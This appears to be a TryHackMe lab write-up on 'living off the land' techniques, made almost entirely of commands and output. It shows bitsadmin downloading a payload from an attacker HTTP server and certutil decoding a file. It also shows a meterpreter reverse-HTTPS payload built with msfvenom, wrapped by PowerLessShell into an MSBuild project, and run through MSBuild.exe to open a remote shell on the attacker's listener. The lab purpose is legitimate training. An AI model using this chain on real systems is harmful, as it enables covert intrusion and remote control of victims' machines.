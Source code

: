 # Room Information

# Room Tasks

## File Operations

### BITSAdmin

```Bash
root@ip-10-10-181-22:~# touch payload.exe
```

```Bash
root@ip-10-10-181-22:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```CMD
DISPLAY: '/Download' TYPE: DOWNLOAD STATE: TRANSFERRED
PRIORITY: FOREGROUND FILES: 1 / 1 BYTES: 0 / 0 (0%)
Transfer complete.

```Bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.168.70 - - [19/Aug/2023 21:08:46] "HEAD /payload.exe HTTP/1.1" 200 -
```

```CMD
C:\Users\thm>bitsadmin.exe /transfer /Download /priority Foreground http://10.10.181.22:8000/payload.exe c:\Users\thm\Desktop\payload.exe
```

```CMD
C:\Users\thm>certutil -decode C:\Users\thm\Desktop\enc_thm_0YmFiOG_file.txt Output.txt
Input Length = 52
Output Length = 38
CertUtil: -decode command completed successfully.
```

```CMD
C:\Users\thm>type Output.txt
THM{ea4e2b9f362320d098635d4bab8a568e}
```

## Other Techniques

```Bash
root@ip-10-10-14-29:~# git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
Cloning into 'PowerLessShell'...
remote: Enumerating objects: 373, done.
remote: Counting objects: 100% (50/50), done.
remote: Compressing objects: 100% (47/47), done.
remote: Total 373 (delta 28), reused 4 (delta 2), pack-reused 323
Receiving objects: 100% (373/373), 113.78 KiB | 1.13 MiB/s, done.
Resolving deltas: 100% (210/210), done.
```

```Bash
root@ip-10-10-14-29:~# msfvenom -p windows/meterpreter/reverse_winhttps LHOST=10.10.14.29 LPORT=1234 -f psh-reflection > liv0ff.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 605 bytes
Final size of psh-reflection file: 3319 bytes
```

```Bash
root@ip-10-10-14-29:~# msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost 10.10.14.29;set lport 1234;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => 10.10.14.29
lport => 1234
[*] Started HTTPS reverse handler on https://10.10.14.29:1234
```

```Bash
root@ip-10-10-14-29:~# cd PowerLessShell/
```

```Bash
root@ip-10-10-14-29:~/PowerLessShell# python2 PowerLessShell.py -type powershell -source ~/liv0ff.ps1 -output liv0ff.csproj
PowerLessShell Less is More
Mr.Un1k0d3r RingZer0 Team
-----------------------------------------------------------
Generating the msbuild file using include/template-powershell.csproj as the template
File 'liv0ff.csproj' created
Process completed
```

```Bash
root@ip-10-10-14-29:~/PowerLessShell# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```CMD
C:\Users\thm>scp root@10.10.14.29:/root/PowerLessShell/liv0ff.csproj .
root@10.10.14.29's password:
liv0ff.csproj                                                  100%   11KB  10.7KB/s   00:00
```

```CMD
C:\Users\thm>c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\liv0ff.csproj
Microsoft (R) Build Engine version 4.8.3761.0
[Microsoft .NET Framework, version 4.0.30319.42000]
Copyright (C) Microsoft Corporation. All rights reserved.

Build started 8/20/2023 12:50:38 AM.
```
```Bash
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => 10.10.14.29
lport => 1234
[*] Started HTTPS reverse handler on https://10.10.14.29:1234
[*] https://10.10.14.29:1234 handling request from 10.10.138.138; (UUID: olvhctke) Staging x86 payload (176732 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.29:1234 -> 10.10.138.138:49871) at 2023-08-20 01:51:09 +0100

meterpreter > 
```

![]()

![]()


**TASK COMPLETED!**
